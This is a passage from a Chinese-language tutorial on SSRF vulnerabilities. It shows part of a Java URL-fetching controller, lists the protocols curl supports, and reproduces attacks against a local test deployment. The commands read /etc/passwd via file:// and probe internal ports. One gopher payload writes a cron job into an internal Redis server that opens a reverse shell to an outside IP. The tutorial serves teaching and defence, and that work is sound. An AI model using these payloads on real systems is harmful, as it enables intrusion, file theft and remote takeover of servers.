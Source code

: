 ```java
            while ((length = inputStream.read(bytes)) > 0) {
                outputStream.write(bytes, 0, length);
            }

        }catch (Exception e) {
            e.printStackTrace();
        }finally {
            if (inputStream != null) {
                inputStream.close();
            }
            if (outputStream != null) {
                outputStream.close();
            }

        }
    }

    public static void main(String[] args) throws Exception {
        SpringApplication.run(SecController.class, args);
    }
}
```

了解了“网页翻译”服务背后的代码逻辑之后，那我们可以猜测开篇的例子是因为请求服务（`Request Service`）最起码就支持`HTTP[S]`和`file`协议，我们再跟进去看看还支持哪些协议呢？

#### 1.4 漏洞复现

##### 1.4.1 漏洞原理
**请求服务（`Request Service`）支持`HTTP[S]`协议，并且同时也默认支持了其它协议。**

这也就导致了最开始例子中的情况，我们填入的一个`file`协议的链接，他就按照`file`协议去读取了对应文件的内容。

既然支持`HTTP[S]`和`file`协议，那是否还支持其它的协议呢？我们来一探究竟：

我们先看看PHP的cURL方法，我们知道PHP的`cURL`模块是基于服务器的`curl`，通过查看`curl`的版本信息，我们可以看到`curl`默认支持的协议有哪些：

```bash
$ curl -V
curl 7.47.1 (x86_64-apple-darwin15.3.0) libcurl/7.47.1 OpenSSL/1.0.2h zlib/1.2.8
Protocols: dict file ftp ftps gopher http https imap imaps pop3 pop3s rtsp smb smbs smtp smtps telnet tftp
Features: IPv6 Largefile NTLM NTLM_WB SSL libz TLS-SRP UnixSockets
```
我们看到，它支持的协议非常多：`dict file ftp ftps gopher http https imap imaps pop3 pop3s rtsp smb smbs smtp smtps telnet tftp`，那我们可以根据这些协议想想看都能干什么呢？

##### 1.4.2 攻击复现

> 我们将”漏洞代码“部署到本机后，我们来测试下几种协议在本机的复现情况：

```
# HTTP协议：构造一个探测请求，以请求的响应时间来判断某个IP的端口是否开启状态
curl http://127.0.0.1/ssrf_01?url=http://10.11.12.13:80

# FILE协议：构造一个探测请求，读取任意文件
curl http://127.0.0.1/ssrf_01?url=file:///etc/passwd

# GOPHER协议：构造一个攻击请求，写入cron到某台内网Redis服务器，反弹SHELL得到服务器权限
curl -vvv 'http://127.0.0.1/ssrf_01?url=http://feei.cn/302.php?s=gopher&i=127.0.0.1&p=6389&query=_*1%0d%0a$8%0d%0aflushall%0d%0a*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$64%0d%0a%0d%0
a%0a%0a*/1%20*%20*%20*%20*%20bash%20-i%20>&%20/dev/tcp/103.21.140.84/6789%200>&1%0a%0a%0a%0a%0a%0d%0a%0d%0a%0d%0a*4%0d
%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3
%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0aquit%0d%0a'
```
